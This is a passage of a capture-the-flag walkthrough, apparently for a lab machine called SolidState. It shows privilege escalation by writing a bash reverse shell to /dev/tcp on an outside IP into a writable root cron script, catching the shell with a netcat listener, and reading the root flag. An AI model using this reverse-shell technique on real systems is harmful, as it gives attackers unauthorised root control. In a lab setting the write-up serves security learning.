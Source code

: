 ```
2021/12/04 23:31:59 CMD: UID=1001 PID=17693  | rbash -c bash 
2021/12/04 23:32:17 CMD: UID=???  PID=17694  | ???
2021/12/04 23:33:01 CMD: UID=0    PID=17697  | /usr/sbin/CRON -f 
2021/12/04 23:33:01 CMD: UID=0    PID=17699  | python /opt/tmp.py 
2021/12/04 23:33:01 CMD: UID=0    PID=17698  | /bin/sh -c python /opt/tmp.py 
2021/12/04 23:33:01 CMD: UID=0    PID=17700  | sh -c rm -r /tmp/*  
2021/12/04 23:33:01 CMD: UID=0    PID=17701  | rm -r /tmp/* 
```

Investigating /opt/tmp.py, we realized that this script is removing all the files in the tmp directory, which explains the ```rm -r /tmp/*``` running in the background process after /opt/tmp.py was executed.

```
#!/usr/bin/env python
import os
import sys
try:
     os.system('rm -r /tmp/* ')
except:
     sys.exit()

```

Looking at the permissions of the tmp.py script, we realize that we are able to write into the file. This means that we can write a reverse shell command into the script and execute it when the script is executed in the background

```
${debian_chroot:+($debian_chroot)}mindy@solidstate:/opt$ cat tmp.py
#!/usr/bin/env python
os.system("/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.16.4/4000 0>&1'")
```

After a while, when the tmp.py is being executed in the background, the reverse shell will be spawned.

```
┌──(kali㉿kali)-[~]
└─$ nc -nlvp 4000
listening on [any] 4000 ...
connect to [10.10.16.4] from (UNKNOWN) [10.10.10.51] 47824
bash: cannot set terminal process group (1028): Inappropriate ioctl for device
bash: no job control in this shell
root@solidstate:~# id
id
uid=0(root) gid=0(root) groups=0(root)
```

### Obtaining root flag

```
root@solidstate:~# cat root.txt
cat root.txt
<Redacted root flag>
```
